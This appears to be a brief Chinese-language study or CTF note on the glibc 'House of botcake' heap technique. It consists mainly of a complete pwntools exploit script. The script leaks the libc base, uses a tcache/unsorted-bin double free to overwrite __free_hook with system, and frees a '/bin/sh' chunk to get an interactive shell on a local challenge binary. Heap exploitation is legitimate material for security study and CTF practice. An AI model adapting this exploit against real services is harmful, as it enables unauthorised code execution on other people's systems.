

# House of botcake

同一个chunk释放到tcache和unsorted bin中。释放在unsorted bin的chunk借助堆块合并改变大小。相对于上面的方法，这个方法的好处是一次就可以double free 可以多次使用因为控制同一块内存的chunk大小不同

并且通过多次的malloc来实现这个方法



因此这里的代码为

```python
from pwn import *
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])
def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))

def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))
    
def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)
def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))
    
add_chunk(0, 0x410)
add_chunk(1, 0x10)
delete_chunk(0)
add_chunk(0, 0x410)
show_chunk(0)
libc.address = u64(p.recvuntil('\x7F')[-6:].ljust(8, '\x00')) - 0x3b6be0
info("libc base: " + hex(libc.address))
for i in range(10):add_chunk(i, 0x200)
for i in range(7):delete_chunk(i)

delete_chunk(8)
delete_chunk(7)
add_chunk(0, 0x200)
delete_chunk(8)
add_chunk(7, 0x410)
edit_chunk(7, 'a' * 0x210 + p64(libc.sym['__free_hook']))
add_chunk(0, 0x200)
add_chunk(0, 0x200)
edit_chunk(0,p64(libc.sym['system']))
edit_chunk(2,'/bin/sh\x00')
delete_chunk(2)
# gdb.attach(p)
p.interactive()
```

